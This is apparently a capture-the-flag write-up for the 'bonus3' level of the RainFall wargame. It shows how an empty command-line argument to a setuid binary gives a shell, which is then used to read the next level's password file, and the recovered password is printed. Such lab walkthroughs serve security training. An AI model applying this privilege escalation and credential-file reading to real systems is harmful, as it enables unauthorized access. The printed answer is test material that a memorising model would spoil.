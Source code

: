 bonus3
======

*	We spawn with a [bonus3](src/bonus3) executable
	```console
	bonus3@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 end users 5595 Mar  6  2016 bonus3
	```
*	The [code](src/bonus3.c) is pretty straight forward, in the end it compares argv[1] to an empty string.
*	There is one important line here which tells us where the pass is contained: `file = fopen("/home/user/end/.pass", "r");`
	```console
	bonus3@RainFall:~$ ./bonus3 ""
	$ cat /home/user/end/.pass
	3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
	```